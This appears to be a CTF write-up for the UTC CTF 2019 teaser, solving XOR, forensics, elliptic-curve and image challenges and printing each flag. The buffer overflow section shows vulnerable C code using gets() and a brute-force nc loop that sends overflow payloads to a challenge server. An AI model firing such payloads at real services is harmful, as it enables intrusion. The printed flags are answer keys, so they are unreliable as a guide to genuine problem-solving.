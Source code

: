 # utc_ctf_2019_teaser

## Xarriors Of The World

We are given a ciphertext.txt and following description
> Did you paid attention to the table of truth? `captain` will help you seek after you seek the truth.

Name of the chall suggests xor, and emphasis on `captain` suggests it may be the xor key.

```
$ cat ciphertext.txt
FhUTDwAQXTwCMAQVKV8NPgdHDQpeDgQvAFE2FlMTAh0OGx0e%

$ cat ciphertext.txt | python -c "from base64 import b64decode; x = b64decode(str(raw_input())); key = 'captain'; print(''.join([chr(ord(x[i]) ^ ord(key[i % len(key)])) for i in range(len(x))]))"
utc{ay3_c@pt@1n_w3lc0me_t0_x0rriors}
```

## Simple BOF

We are given some c code along with following description
> Want to learn the hacker's secret? Try to smash this buffer! You need guidance? Look no further than to  [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already.
> nc chal.utc-ctf.club 35235

Let's have a look at the main part of the code

```
void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}
```

Really simple bof problem. `gets` is a vulnerable call as it can overwrite other variables in stack. So we need to overwrite variable `secret` so that it equals `0x67616c66` which translates to flag. So `buff = something + 'flag'` such that secret gets overwritten with `flag`.

I'm lazy af, so I'll just brute it.

```
$ for i in {1..500}; python -c "print('A' * $i + 'flag')" | nc chal.utc-ctf.club 35235; done | grep "utc"
utc{buffer_0verflows_4re_c00l!}
```

## EZIP

We are given two attachments - [cat.png](./files/cat.png) and [flag.zip](./files/flag.zip)

```
$ exiftool cat.png
ExifTool Version Number         : 10.10
File Name                       : cat.png
Directory                       : .
File Size                       : 285 kB
File Modification Date/Time     : 2019:12:21 13:06:41+05:30
File Access Date/Time           : 2019:12:24 02:22:57+05:30
File Inode Change Date/Time     : 2019:12:21 13:07:53+05:30
File Permissions                : rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 439
Image Height                    : 527
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Gamma                           : 2.2222
Software                        : Adobe ImageReady
Comment                         : e4syp4ssf0rz1p
Image Size                      : 439x527
Megapixels                      : 0.231
```

Notice the `comment` in exiftool output.

```
$ unzip -P "e4syp4ssf0rz1p" flag.zip                                                                                          ] 2:26 AM
Archive:  flag.zip
   creating: getme/
 extracting: getme/flag.txt

$ cat getme/flag.txt
utc{ex1f_ru135_4ll_7h3_w4y}
```

## Optics 1

We are given [challenge1.png](./files/challenge1.png) with following description

> I dropped out of my physics class due to boring optical theory. I joined Forensics class thereafter. But, I found Optics there too. Help me clear this class :facepalm:

```
$ file challenge1.png
challenge1.png: data

$ od -bc challenge1.png | head
0000000 211 114 117 114 015 012 032 012 000 000 000 015 111 110 104 122
        211   L   O   L  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000020 000 000 001 054 000 000 001 054 010 006 000 000 000 171 175 216
         \0  \0 001   ,  \0  \0 001   ,  \b 006  \0  \0  \0   y   } 216
0000040 165 000 000 000 004 147 101 115 101 000 000 261 217 013 374 141
          u  \0  \0  \0 004   g   A   M   A  \0  \0 261 217  \v 374   a
0000060 005 000 000 000 001 163 122 107 102 000 256 316 034 351 000 000
        005  \0  \0  \0 001   s   R   G   B  \0 256 316 034 351  \0  \0
0000100 000 040 143 110 122 115 000 000 172 046 000 000 200 204 000 000
         \0       c   H   R   M  \0  \0   z   &  \0  \0 200 204  \0  \0
```

Seeing the headers of file, the issue is clearly visible. Replacing `LOL` with `PNG` and opening the image gives us a qr code which gives us the flag `utc{dang_you_know_qr_decoding_and_shit}`.

## Curve It Up

We are given a file `curve.txt`

```
$ cat curve.txt
Elliptic Curve: y^2 = x^3 + A*x + B mod N

N = 58738485967040967283590643918006240808790184776077323544750172596357004242953
A = 76727570604275129576071347306603709762219034167050511215297136720584179974657
B = ???

P = (1499223386326383661524589770996693829399568387777849887556841520506306635197, 18509752623395560148909577815970815579696746171847377654079329916213349431951)
Q = (29269524564002256949792104801311755011410313401000538744897527268133583311507, 29103379885505292913479681472487667587485926778997205945316050421132313574991)
Q = n*P

The flag is utfc{n}
```

Let's open up sagemath and do some analysis.

```
$ sagemath
sage: N = 58738485967040967283590643918006240808790184776077323544750172596357004242953
....: A = 76727570604275129576071347306603709762219034167050511215297136720584179974657
....: P = (1499223386326383661524589770996693829399568387777849887556841520506306635197, 1850975262339556014890957781597081557969674617184737765407932
....: 9916213349431951)
....: Q = (29269524564002256949792104801311755011410313401000538744897527268133583311507, 291033798855052929134796814724876675874859267789972059453160
....: 50421132313574991)
....:
sage: B = ((P[1]**2) - (P[0]**3) - (A * P[0])) % N
sage: E = EllipticCurve(FiniteField(N), [A, B])
sage: p, q = E(P), E(Q)
sage: p.order() / E.order()
1/3
sage: is_prime(N)
True
```

So, N is prime and order of P is sufficiently large for `pohlig-hellman` attack.

```
sage: discrete_log(q,p,p.order(),operation='+')
314159
```

Our flag is `utc{314159}`

## Really Good Picture

We are given an [image](./files/flag.png) with following description
>Instead of a flag, I made you a picture, is that ok?

Observing the picture we see different bands of colors (maybe each band representing a part of the flag?)

```
$ python
>>> import cv2
>>> x = cv2.cvtColor(cv2.imread('./flag.png'), cv2.COLOR_BGR2RGB)
>>> unique_colors = []
>>> for w in range(x.shape[1]):
        color = list(x[0][w])
        if color not in unique_colors:
            unique_colors.append(color)
>>> ''.join([''.join(map(chr, color)) for color in unique_colors])
'utc{taste_the_rainbow94100389}'
```
